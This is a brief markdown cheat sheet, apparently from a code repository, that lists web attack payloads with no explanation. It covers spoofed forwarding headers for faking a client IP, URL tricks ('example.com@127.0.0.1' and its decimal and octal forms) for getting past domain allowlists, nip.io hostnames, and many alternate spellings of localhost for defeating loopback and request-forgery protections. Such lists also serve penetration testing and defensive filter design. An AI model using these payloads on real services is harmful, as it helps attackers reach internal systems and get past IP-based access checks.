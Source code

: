 # IP Spoofing

```
X-Forwarded-For: client1, proxy1, proxy2
X-Forwarded-Host: example.com
Forwarded: for=111.111.111.111;proto=http;by=222.222.222.222
Forwarded: for=111.111.111.111, for=222.222.222.222
```

# Bypass domain whitelisting

```
https://example.com@127.0.0.1
# Deciaml bypass
https://example.com@2130706433
# Octal bypass
https://example.com@017700000001
```

# nip.io

```
http://<anything>[.-]<IP Address>.nip.io
http://welcome.app.127.0.0.1.nip.io
http://example.com.nip.io
```

# Bypass 127.0.0.1/localhost protections

```
# the methods mentioned above and
http://0
http://127.1:80
http://0.0.0.0:80
http://[::]:80
http://[0.0.0.0::1]:80
http://lvh.me
http://localtest.me
http://spoofed.burpcollaborator.net
```